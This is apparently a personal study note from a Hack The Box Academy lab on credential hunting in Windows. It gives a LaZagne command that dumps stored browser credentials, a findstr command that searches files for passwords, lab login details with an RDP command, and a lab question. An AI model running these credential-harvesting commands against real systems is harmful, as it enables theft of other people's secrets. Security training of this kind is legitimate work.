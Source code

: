 
>[! Note]
>- Use [Lazagne](https://github.com/AlessandroZ/LaZagne) to discover credentials stored in web browsers
>- Place a copy of Lazagne on your attack host to quickly transfer to target

##### LaZagne Commands

Run all modules:
```go
start lazagne.exe all
```

##### findstr

Use [findstr](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr) to search from patterns across many types of files

```gO
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Questions

Username
```go
Bob
```

Password
```go
HTB_@cademy_stdnt!
```

IP
```go
10.129.177.90
```

RDP
```go
xfreerdp /v:10.129.177.90 /u:Bob /p:HTB_@cademy_stdnt! /cert:ignore
```

1)  What password does Bob use to connect to the Switches via SSH? (Format: Case-Sensitive)